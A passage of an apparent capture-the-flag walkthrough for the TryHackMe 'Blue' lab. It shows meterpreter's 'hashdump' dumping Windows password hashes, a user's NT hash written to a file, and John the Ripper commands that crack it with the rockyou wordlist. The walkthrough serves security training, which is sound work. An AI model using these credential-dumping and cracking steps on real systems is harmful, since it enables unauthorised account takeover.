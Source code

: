 - No answer needed ✅ Correct Answer

---

## Task 4: Cracking

- Dump the non-default user's password and crack it!

- Answer the questions below:

**1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?**

Let's run `hashdump` in the meterpreter shell:
```bash
hashdump
```
![Metasploit](https://raw.githubusercontent.com/fartaviao/tryhackme-blue/refs/heads/main/Screenshots/Screenshot-24.png)

- Jon ✅ Correct Answer

**2. Copy this password hash to a file and research how to crack it. What is the cracked password?**

Let's copy the hashed password into a `hashedpassword.txt`:
```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > hashedpassword.txt
```
![Metasploit](https://raw.githubusercontent.com/fartaviao/tryhackme-blue/refs/heads/main/Screenshots/Screenshot-25.png)

We are going to use `John The Ripper` to crack the password with the file `rockyou.txt`:
```bash
sudo john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashedpassword.txt
```
If you get an error, it's because the file can't be found, as it is compressed. You can decompress it with `gzip`:
```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
```
Now we can run `John The Ripper` again:
```bash
sudo john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashedpassword.txt
```
Cracked password!
